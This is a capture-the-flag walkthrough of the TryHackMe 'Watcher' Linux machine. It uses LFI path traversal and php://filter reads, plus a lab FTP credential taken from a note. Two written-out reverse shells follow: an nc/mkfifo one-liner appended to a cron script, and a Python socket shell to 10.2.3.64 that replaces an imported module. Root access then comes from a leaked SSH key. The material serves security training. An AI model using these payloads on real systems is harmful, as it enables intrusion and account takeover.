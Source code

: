 ```yaml
---

title: Watcher
published: true
category: CTF
system: linux
walkthrough-type: thm
source: https://tryhackme.com/room/watcher
Description: A boot2root Linux machine utilising web exploits along with some common privilege escalation techniques.
tags: security, linux
---
```


# Watcher

7 flags in this room

wait 5 mins for all services to start up on the system

starting off with nmap `nmap -p- watcher.thm -vvv`

we start off running into some pretty simble LFI and can pull `/post.php?post=../../../etc/passwd` and find some users `mat` and `toby`.

scanning with gobuster reveals `robots.txt` and we can find flag 1

we can then `/post.php?post=secret_file_do_not_read.txt` and get the note for the ftp user `ftpuser:givemefiles777`

- `/post.php?post=php://filter/convert.base64-encode/resource=post.php`

this php script is just `<?php include $_GET["post"]; ?>`

inside of the secret file was a note 

```
 Hi Mat,

The credentials for the FTP server are below. I've set the files to be saved to /home/ftpuser/ftp/files.

Will
```

So if we upload a reverse shell on the php we should be able to include it, and we get a www-data shell.

`sudo -l` we can run any command so get a toby bash, `sudo -u toby bash` and pickup the 4th flag in tobys home dir.

missed a flag so `find / -name flag_3.txt 2>/dev/null` and pick it up

Mat left us a note in tobys home dir

```
Hi Toby,

I've got the cron jobs set up now so don't worry about getting that done.

Mat
```

mat is running a script in tobys dir under his privilege, cronjob `/home/toby/jobs/cow.sh`

- `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc localhost 6670 >/tmp/f" >> /home/toby/jobs/cow.sh`

we can pickup flag 5 in mats home and another note

```
Hi Mat,

I've set up your sudo rights to use the python script as my user. You can only run the script with sudo so it should be safe.

Will
```

so we can run his `will_script.py` as sudo, which lso means the whitelist of commands. So since `cat` is allowed possibly be able to read some interesting information

```
import os
import sys
from cmd import get_command

cmd = get_command(sys.argv[1])

whitelist = ["ls -lah", "id", "cat /etc/passwd"]

if cmd not in whitelist:
        print("Invalid command!")
        exit()

os.system(cmd)
```

this is importing cmd.py so we can overwrite it with a python shell and execute.

`echo "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.2.3.64',6676));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" > cmd.py`

- `sudo -u will python3 /home/mat/scripts/will_script.py cmd.py`

the hint for the last key is ssh but trying to use find doesnt seem to work and scaning through linpeas i cant find much. in `/opt/backups` we find a b64 keyfile. we can python3 webserver this over to out attacking machine decode and login as root via ssh for the last flag. `b64 -d key > root_rsa && chmod 600 root_rsa` `ssh root@watcher.thm -i root_rsa` and we win.
